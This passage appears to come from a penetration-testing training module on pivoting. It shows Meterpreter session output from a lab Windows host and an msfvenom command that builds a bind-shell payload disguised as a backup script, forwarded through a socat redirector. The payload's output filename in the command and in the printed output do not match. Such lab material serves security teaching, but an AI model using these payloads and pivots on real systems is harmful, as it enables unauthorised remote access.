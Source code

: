 #### Establishing the Meterpreter Session

    [!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
    [*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
    [!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
    [*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500
    
    meterpreter > getuid
    Server username: INLANEFREIGHT\victor

## Socat Redirection with a Bind Shell

Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.

![Diagram showing network setup: Attack Host (10.10.15.5) uses Metasploit Handler. Victim Server (Ubuntu) listens on port 8080, forwards to 172.16.5.19:8443. Victim Server (Windows A) has a Bind Shell on port 8443.](fig/socat_bind_shell.png)

We can create a bind shell using msfvenom with the below command.

#### Creating the Windows Payload

    matmarqx@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
    
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 499 bytes
    Final size of exe file: 7168 bytes
    Saved as: backupjob.exe
    